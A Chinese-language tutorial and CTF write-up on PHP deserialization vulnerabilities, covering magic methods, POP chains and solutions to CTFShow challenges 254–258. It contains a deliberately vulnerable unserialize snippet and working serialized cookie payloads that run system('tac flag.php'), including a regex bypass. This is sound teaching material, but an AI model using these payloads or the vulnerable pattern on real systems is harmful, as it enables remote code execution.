

# WEB攻防-PHP反序列化&POP链构造&魔术方法流程&漏洞触发条件&属性修改

1、什么是反序列化操作？ - 类型转换

\- PHP & JavaEE & Python（见图）

序列化：对象转换为数组或字符串等格式

反序列化：将数组或字符串等格式转换成对象

serialize()   //将对象转换成一个字符串

unserialize()  //将字符串还原成一个对象

 

2、常见PHP魔术方法？- 对象逻辑（见图）

__construct(): //当对象new的时候会自动调用

__destruct()：//当对象被销毁时会被自动调用

__sleep(): //serialize()执行时被自动调用

__wakeup(): //unserialize()时会被自动调用

__invoke(): //当尝试以调用函数的方法调用一个对象时会被自动调用

__toString(): //把类当作字符串使用时触发

__call(): //调用某个方法,若方法存在,则调用;若不存在,则会去调用__call函数。

__callStatic(): //在静态上下文中调用不可访问的方法时触发

__get(): //读取对象属性时,若存在,则返回属性值;若不存在，则会调用__get函数

__set(): //设置对象的属性时,若属性存在,则赋值;若不存在,则调用__set函数。

__isset(): //在不可访问的属性上调用isset()或empty()触发

__unset(): //在不可访问的属性上使用unset()时触发

__set_state()，调用var_export()导出类时，此静态方法会被调用

__clone()，当对象复制完成时调用

__autoload()，尝试加载未定义的类

__debugInfo()，打印所需调试信息

 

3、为什么会出现安全漏洞？

原理：未对用户输入的序列化字符串进行检测，导致攻击者可以控制反序列化过程，从而导致代码执行，SQL注入，目录遍历等不可控后果。在反序列化的过程中自动触发了某些魔术方法。当进行反序列化的时候就有可能会触发对象中的一些魔术方法。

<?php

class B{

  public $cmd='ipconfig';

  public function __destruct(){

​    system($this->cmd);

  }

}

//函数引用，无对象创建触发魔术方法

unserialize($_GET['x']);

 

4、反序列化漏洞如何利用？- POP链构造

POP：面向属性编程（Property-Oriented Programing）常用于上层语言构造特定调用链的方法，序列化攻击都在PHP魔术方法中出现可利用的漏洞，因自动调用触发漏洞，但如关键代码没在魔术方法中，而是在一个类的普通方法中。这时候就可以通过构造POP链寻找相同的函数名将类的属性和敏感函数的属性联系起来。

 

-反序列化常见起点（见图）

-反序列化常见跳板（见图）

-反序列化常见终点（见图）

 

\#CTFSHOW-训练链构造

254-对象引用执行逻辑

username=xxxxxx&password=xxxxxx

 

255-反序列化变量修改1

CODE:

<?php

class ctfShowUser{

  public $isVip=true;

}

 

$a=new ctfShowUser();

echo urlencode(serialize($a));

?>

Get:username=xxxxxx&password=xxxxxx

Cookie:user=O%3A11%3A%22ctfShowUser%22%3A3%3A%7Bs%3A8%3A%22username%22%3Bs%3A6%3A%22xxxxxx%22%3Bs%3A8%3A%22password%22%3Bs%3A6%3A%22xxxxxx%22%3Bs%3A5%3A%22isVip%22%3Bb%3A1%3B%7D

 

256-反序列化参数修改2

CODE:

<?php

class ctfShowUser{

  public $username='xiaodi';

  public $password='xiaodisec';

  public $isVip=true;

}

 

$a=new ctfShowUser();

echo urlencode(serialize($a));

 

?>

GET:username=xiaodi&password=xiaodisec

COOKIE:user=O%3A11%3A%22ctfShowUser%22%3A3%3A%7Bs%3A8%3A%22username%22%3Bs%3A6%3A%22xiaodi%22%3Bs%3A8%3A%22password%22%3Bs%3A9%3A%22xiaodisec%22%3Bs%3A5%3A%22isVip%22%3Bb%3A1%3B%7D

 

 

257-反序列化参数修改&对象调用逻辑

CODE:

<?php

class ctfShowUser{

  public $class = 'backDoor';

 public function __construct(){

​    $this->class=new backDoor();

  }

}

class backDoor{

  public $code='system("tac flag.php");';

  

}

echo urlencode(serialize(new ctfShowUser));

?>

GET:username=xxxxxx&password=xxxxxx

COOKIE:user=O%3A11%3A%22ctfShowUser%22%3A1%3A%7Bs%3A5%3A%22class%22%3BO%3A8%3A%22backDoor%22%3A1%3A%7Bs%3A4%3A%22code%22%3Bs%3A23%3A%22system%28%22tac+flag.php%22%29%3B%22%3B%7D%7D

 

258-反序列化参数修改&对象调用逻辑&正则

CODE:

<?php

class ctfShowUser{

  public $class = 'backDoor';

  public function __construct(){

​    $this->class=new backDoor();

  }

}

class backDoor{

  public $code="system('tac flag.php');";

}

 

$a=serialize(new ctfShowUser());

$b=str_replace(':11',':+11',$a);

$c=str_replace(':8',':+8',$b);

echo urlencode($c);

?>

GET:username=xxxxxx&password=xxxxxx

COOKIE:user=O%3A%2B11%3A%22ctfShowUser%22%3A1%3A%7Bs%3A5%3A%22class%22%3BO%3A%2B8%3A%22backDoor%22%3A1%3A%7Bs%3A4%3A%22code%22%3Bs%3A23%3A%22system%28%27tac+flag.php%27%29%3B%22%3B%7D%7D